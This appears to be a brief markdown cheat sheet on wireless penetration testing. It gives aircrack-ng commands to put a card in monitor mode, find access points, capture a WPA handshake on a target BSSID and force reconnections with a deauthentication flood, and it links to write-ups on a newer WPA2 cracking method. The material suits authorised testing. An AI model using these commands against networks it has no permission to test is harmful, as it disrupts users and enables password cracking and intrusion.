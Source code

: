 # Wireless pentesting

## Capturing WPA handshake

### Short version
Run [Wifite](https://github.com/derv82/wifite) :-)

### Long, manual version

Kill processes that might f stuff up:

    airmon-ng check kill

Start monitoring:

    sudo airmon-ng start wlan0

Find APs to attack:

    sudo airodump-ng mon0

Start listening for a handshake:

    sudo airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w name-of-file-to-output mon0 --ignore-negative-one

Start a mass disassociation to speed up previous step:

    sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 mon0 --ignore-negative-one

## Testing for KRACK attack vulnerability
The [hashcat forums](https://hashcat.net/forum/thread-7717.html) talk about this vulnerability in more detail, and I found [this write-up](https://www.shellvoide.com/wifi/how-to-crack-wpa2-password-without-handshake-newly-discovered-method/) to be helpful in actually testing for it.
